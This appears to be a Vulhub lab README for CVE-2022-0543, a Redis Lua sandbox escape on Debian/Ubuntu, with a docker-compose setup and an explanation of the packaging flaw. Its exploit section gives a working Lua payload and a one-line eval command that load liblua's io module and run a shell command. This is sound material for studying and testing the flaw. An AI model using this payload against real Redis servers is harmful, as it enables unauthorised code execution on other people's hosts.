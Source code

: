 # Redis Lua Sandbox Escape and Remote Code Execution (CVE-2022-0543)

[中文版本(Chinese version)](README.zh-cn.md)

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.

Reginaldo Silva discovered that due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scriptss could possibly escape the Lua sandbox and execute arbitrary code on the host.

References:

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## Vulnerability Environment

Execute following command to start a redis server 5.0.7 on Ubuntu:

```
docker-compose up -d
```

After server is started, you can connect to this server without credentials by `redis-cli`:

```
redis-cli -h your-ip
```

## Exploit

This vulnerability existed because the Lua library in Debian/Ubuntu is provided as a dynamic library. A `package` variable was automatically populated that in turn permitted access to arbitrary Lua functionality. 

As this extended to, for example, you can use `package.loadlib` to load the modules from liblua, then use this module to execute the commands:

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

Noted that you should specify a correct realpath for the `liblua` library. In this Vulhub environment (Ubuntu focal), the value is `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`.

Eval this script in redis shell:

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Execute the commands successful:

![](1.png)
